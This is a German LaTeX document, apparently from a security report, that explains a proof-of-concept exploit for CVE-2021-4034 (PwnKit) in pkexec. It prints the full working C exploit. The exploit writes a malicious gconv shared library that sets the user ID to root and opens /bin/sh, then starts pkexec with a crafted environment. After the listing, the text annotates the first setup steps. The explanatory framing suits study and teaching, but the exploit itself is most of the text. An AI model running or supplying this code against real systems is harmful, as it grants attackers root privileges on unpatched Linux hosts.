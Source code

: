 \documentclass[oneside,11pt,a4paper,article,german]{memoir}
\begin{document}
Im Folgenden wird der zugrunde liegende Proof-of-Concept-Code erläutert \cite{c17_proof_of_concept_github}.

\begin{lstlisting}[caption={Proof of Concept aus \texttt{cve-2021-4034-poc.c}}]
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
    "#include <stdio.h>\n"
    "#include <stdlib.h>\n"
    "#include <unistd.h>\n\n"
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "    setuid(0); setgid(0);\n"
    "    seteuid(0); setegid(0);\n"
    "    system(\"export PATH=/usr/local/sbin:/usr/"
    "local/bin:/usr/sbin:/usr/bin:/sbin:/bin;"
    " rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    "    exit(0);\n"
    "}";

int main(int argc, char *argv[]) {
    FILE *fp;
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
    fp = fopen("pwnkit/pwnkit.c", "w");
    fprintf(fp, "%s", shell);
    fclose(fp);
    system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
    char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
    execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
\end{lstlisting}
\par

\begin{lstlisting}[caption={Anlegen von \texttt{GCONV\_PATH}}]
    system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
\end{lstlisting}

\par
Erstellt ein Verzeichnis mit dem Namen \texttt{GCONV\_PATH=.} sowie eine ausführbare Datei \texttt{GCONV\_PATH=./pwnkit}. Diese
Dateinamen werden verwendet, um später über einen Out-of-Bounds-Zugriff in \texttt{pkexec} die sicherheitskritische
Umgebungsvariable \texttt{GCONV\_PATH} in den Prozess einzuschleusen.
\par

\begin{lstlisting}[caption={Erstellen der \texttt{gconv}-Modules}]
    system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
\end{lstlisting}
\end{document}
